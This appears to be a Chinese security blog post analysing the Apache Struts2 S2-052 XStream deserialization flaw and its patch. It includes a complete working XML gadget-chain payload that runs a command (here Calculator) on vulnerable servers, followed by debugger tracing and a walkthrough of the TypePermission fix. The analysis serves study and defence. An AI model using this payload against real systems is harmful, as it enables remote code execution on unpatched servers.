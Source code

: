```yaml
---
layout: post  
title: "s2-052 漏洞解析和补丁分析"  
date: 2017-09-08
description: "java漏洞"  
tag: java漏洞
---
```

##  问题复现  
9月5号，在北京出差的时候，就听到群里大师傅们在讨论s2-052，当时根据官方链接，作者说的很清楚，在XStreamHandler函数toObject中,在进行xml转object的时候，没有任何的防御措施，导致可以直接反序列化。由于酒店的网太烂了，maven依赖一直下载不下来，回到公司后一切顺利地可以进行。本来当网就想调试分析一下的，但是关于XStream的用法，可以参考[http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral](http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral),可以这么理解，XStream这个东西就是为了将xml和java对象之间转换的工具。至于为什么要将java对象转换成xml，答案是为了方便存储，和writeObject类似的效果，只不过writeObject将对象保存为一个反序列化格式的文件, XStream将对象保存为xml格式。  
找到[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)，将其下载下来，根据is_win师傅给的生成payload当时，我们传入两个参数，分别为ImageIO, /Applications/Calculator.app/Contents/MacOS/Calculator。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/11959949.jpg)
对marshalsec项目下断点分析，可以看到最后形成的poc 如下:  
```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```
很熟悉的格式，我们可以反推，当调用xstream.fromXML进行解析xml的时候，该对象会有字段ProcessBuilder，最后反序列化的时候大概会是这个效果。
```
new ProcessBuilder("Applications/Calculator.app/Contents/MacOS/Calculator").start()
```
跟进ProcessBuilder类，发现了commond字段
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/60983788.jpg)
那么其和xml的中的节点
```
<command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
```
可以匹配起来了，至此可以弹出计算器。  
跟踪原作者的提示，我在toObject处下断点。整个堆栈调试情况如下:  
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/21020967.jpg)
可以清晰的看到，在ContentTypeInterceptor类中，首先判断了请求body的长度，并且将其交由XStreamHandler做toObject处理。
继续跟进到xstream.fromXML 这个函数，以便于我们深刻理解xstream到底是怎么将一个xml解析的。跟进XStream类中的fromXML，发现其调用了unmarshal函数，经过层层跟进我们最终来到了MapConverter类中的unmarshal函数，
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/49876782.jpg)
Xstream将xml数据解析并放到一个map里面。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/82546916.jpg)
某处关键代码如下  
```
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
        reader.moveDown();
        Object key = this.readItem(reader, context, map);
        reader.moveUp();
        reader.moveDown();
        Object value = this.readItem(reader, context, map);
        reader.moveUp();
        target.put(key, value);
    }
```
经过测试，在readItem的时候弹出了计算器，跟进这个函数。其中代码入下  
```
 protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
        Class type = HierarchicalStreams.readClassType(reader, this.mapper());
        return context.convertAnother(current, type);
    }
```  
其中HierarchicalStreams.readClassType(reader, this.mapper())为根据字符jdk.nashorn.internal.objects.NativeString获取到其具体的对象。
 经过持续的跟进，发现callReadResolve函数入下  
 ![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/92268293.jpg)
 java反射机制。整个操作流程细节比较复杂，总结起来如下:
 xml先提取节点，解析到map
 迭代器继续解析节点
 反射机制执行恶意代码
 
## 补丁分析  
我调试struts2-rest-plugin插件的版本为2.5.12(影响版本参考[https://struts.apache.org/docs/s2-052.html](https://struts.apache.org/docs/s2-052.html))，我将依赖改成版本不受影响的2.5.13，这里把两个版本的源码diff一下。发现在createXStream的时候做了一些安全防护。其中新增了一个函数
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/29393266.jpg)
[http://x-stream.github.io/security.html](http://x-stream.github.io/security.html)。其中这段描述很清楚
XStream提供了一些TypePermission实现，允许任何类型或任何类型，以允许原始类型及其对应，空值，数组类型，实现通过常规或通配符表达式匹配类型的名称，一个用于反转权限。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/60892122.jpg)
添加了xml可以反序列化的类，当解析到jdk.nashorn.internal.objects.NativeString的时候，由于没通过permission.allows的时候，无法正常return,直接抛出一个异常，终止整个过程。
```
 public Class realClass(String elementName) {
        Class type = super.realClass(elementName);

        for(int i = 0; i < this.permissions.size(); ++i) {
            TypePermission permission = (TypePermission)this.permissions.get(i);
            if(permission.allows(type)) {
                return type;
            }
        }

        throw new ForbiddenClassException(type);
    }
}
```后面也就不会去解析之行了。至此，整个过程分析完毕。

##  参考资料   
http://x-stream.github.io/security.html
